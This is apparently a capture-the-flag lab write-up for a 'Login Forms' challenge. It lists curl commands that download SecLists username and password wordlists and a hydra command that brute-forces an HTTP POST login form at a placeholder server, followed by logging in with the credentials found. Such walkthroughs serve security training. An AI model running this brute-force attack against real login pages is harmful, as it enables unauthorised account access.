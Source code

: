 # Login Forms

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download the username and password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt
  ```
  {% endcode %}
* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f SERVER_IP -s SERVER_PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
  ```
  {% endcode %}

Step 3:

*   Login with the founded credentials.\


    <figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

